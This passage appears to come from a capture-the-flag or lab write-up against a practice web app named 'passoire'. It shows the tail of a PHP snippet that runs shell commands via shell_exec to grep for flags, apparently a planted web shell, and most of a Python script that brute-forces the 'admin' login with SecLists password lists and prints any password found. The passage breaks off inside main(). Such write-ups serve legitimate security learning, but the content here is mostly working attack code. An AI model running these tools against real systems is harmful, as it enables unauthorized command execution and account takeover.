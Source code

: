 ```
$grep_command = "grep -r 'flag_[0-9]* is [a-f0-9]*' $dir_string 2>/dev/null";
$contents = shell_exec($grep_command);
echo $contents;

echo "</pre>";
?>
```



**`get_credentials.py`** (requires a list(s) of passwords like those in [SecLists](https://github.com/danielmiessler/SecLists). This tries to find the password for the user 'admin'

```
"""get_credentials.py"""
import requests
import time
from urllib.parse import urljoin
from pathlib import Path

def read_password_list(filename):
    """Read passwords from file and return as list"""
    try:
        with open(filename, 'r', encoding='utf-8', errors='ignore') as f:
            return [line.strip() for line in f if line.strip()]
    except Exception as e:
        print(f"Error reading {filename}: {e}")
        return []

def try_login(session, base_url, username, password):
    """Attempt login and return True if successful"""
    login_url = urljoin(base_url, "/passoire/connexion.php")
    
    data = {
        "login": username,
        "password": password
    }
    
    try:
        response = session.post(login_url, data=data, allow_redirects=True)
        
        # Only print progress every 100 attempts to avoid spam
        if try_login.counter % 100 == 0:
            print(f"Attempts made: {try_login.counter}")
        try_login.counter += 1
        
        # Success detection: check if we got redirected to index.php
        if "index.php" in response.url:
            print(f"\nSUCCESS! Password found:")
            print(f"Username: {username}")
            print(f"Password: {password}")
            return True
            
        return False
        
    except requests.exceptions.RequestException as e:
        print(f"Error during login attempt: {e}")
        return False

# Initialize counter as static variable
try_login.counter = 0

def main():
    base_url = "http://localhost:8080"
    #username = "john_doe"
```